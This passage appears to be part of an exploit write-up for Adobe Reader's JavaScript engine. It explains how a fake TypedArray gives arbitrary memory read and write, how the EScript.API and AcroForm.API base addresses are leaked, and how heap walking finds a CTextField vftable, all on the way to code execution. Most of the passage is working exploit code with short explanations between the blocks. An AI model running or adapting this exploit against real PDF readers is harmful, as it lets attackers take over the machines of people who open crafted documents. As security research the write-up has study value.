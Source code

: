 ```
DV = DataView(SPRAY[SPRAY_IDX])
function myread(addr) {
    
	DV.setUint32(4, addr, true)
	return s2h(T[2])
}


```

Similarly to achieve arbitrary write, I create a fake `TypedArray`. I simply copy `WRITE_ARRAY` contents and change its `SharedArrayRawBuffer` pointer.

```
for(var i=0; i<32; i++) {DV.setUint32(i*4+16, myread(WRITE_ARRAY_ADDR+i*4), true)} 
FAKE_ELES[6] = GUESS+0x10
FAKE_ELES[7] = 0xffffff87
function mywrite(addr, val) {
	DV.setUint32(96, addr, true)
	T[3][0] = val
}



```

Gaining Code Execution
----------------------

With arbitrary read/write primitives, I can leak the base address of `EScript.API` in the `TypedArray` object’s header. Inside `EScript.API` there is a very convenient gadget to call `VirtualAlloc`.

```
ESCRIPT_BASE = myread(WRITE_ARRAY_ADDR+12) - 0x02784D0 
console.println('ESCRIPT_BASE: '+ ESCRIPT_BASE.toString(16))
assert(ESCRIPT_BASE>0)


```

Next I leak the base of address of `AcroForm.API` and the address of a `CTextField` (`0x60` in size) object. First allocate a bunch of `CTextField` object using `addField` then create a string object also with size `0x60`, then leak the address of this string (`MARK_ADDR`). We can safely assume that these `CTextField` objects will lie behind our `MARK_ADDR`. Finally I walk the heap to look for `CTextField::vftable`.

```
for(var i=0; i<32; i++) this.addField(i, "text", 0, [0,0,0,0]);
T[4] = STR_60.toLowerCase()
for(var i=32; i<64; i++) this.addField(i, "text", 0, [0,0,0,0]);
MARK_ADDR = myread(FAKE_ELES[8]+4)
console.println('MARK_ADDR: '+ MARK_ADDR.toString(16))
assert(MARK_ADDR>0)
vftable = 0
while (1) {
	MARK_ADDR += 4
	vftable = myread(MARK_ADDR)
	if ( ((vftable&0xFFFF)==0x55BC) && (((myread(MARK_ADDR+8)&0xff00ffff)>>>0)==0xc0000000)) break
}
console.println('MARK_ADDR: '+ MARK_ADDR.toString(16))
assert(MARK_ADDR>0)


ACROFORM_BASE = vftable-0x07A55BC
console.println('ACROFORM_BASE: ' + ACROFORM_BASE.toString(16))
assert(ACROFORM_BASE>0)

```